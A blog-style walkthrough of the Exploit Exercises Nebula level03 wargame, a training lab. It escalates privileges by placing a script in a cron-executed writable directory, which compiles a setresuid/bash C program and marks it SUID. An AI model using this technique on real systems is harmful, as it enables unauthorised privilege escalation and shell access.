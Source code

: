 ```yaml
---
title: "Exploit Exercises - Nebula 03"
date: "2011-12-04T15:22:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - suid
 - hacking
---
```


In [this](http://exploit-exercises.com/nebula/level03) challenge, we can see that there's no code for us to exploit, it's something in the system. 
I log in to the system, and look in the /home/flag03 folder, as all the other challenges have started.  I see there's a writable.sh script, which I was guessing was the script getting called on a crontab every couple minutes.  

<!-- more -->

It contained: 

```
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

So this script looks like it will execute anything in the writable.d folder that we put in there.  And after some tinkering, I can see that it's running it as the flag03 user that we want to escalate to. 

My first thoughts were to create a bash script like previous challenges, and have it get created with SUID permissions.  However this didn't work, because apparently bash ignores the SUID bit, for security reasons.  I then read up on using perl, but couldn't get it to work, due to perl's built in protection.  Lastly, I settled on just good old C/C++. I spent forever messing around with this, because I was always setting the uid, but never the euid. When I forgot that, it would run bash, but I'd be the same user. I created this source file, and saved it to /tmp/level03.c 

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setresuid(996, 996, 996);
    setresgid(996, 996, 996);
    system( "/bin/bash" );
    return 0;
}
```

NOTE: The "996" is the userid and groupid for flag03.  I found this by just doing 

```
level03@nebula:/home/flag03$ cat /etc/passwd
```

Now that I have a source file, I need to get the flag03 user to compile it, and mark it SUID, so that when it runs, it works as the user specified.  I did it by using the following command: 

```
level03@nebula:/home/flag03$ echo -e 'gcc -o /home/flag03/level03 /tmp/level03.c;chmod +s,a+rwx /home/flag03/level03' > /home/flag03/writable.d/bash; chmod +x /home/flag03/writable.d/bash
```

This will create a bash script to get picked up by the cron job.  It first compiles the /tmp/level03.c code file and outputs the binary to /home/flag03/level03.  Afterwards it sets the permissions to allow executing (and more technically) as well as SUID.  After this command, I had to wait a couple minutes for it to get picked up by the cron job, but then I ran it, and got access to flag03. 

```
level03@nebula:/home/flag03$ ./level03
flag03@nebula:/home/flag03$ getflag
You have successfully executed getflag on a target account
```
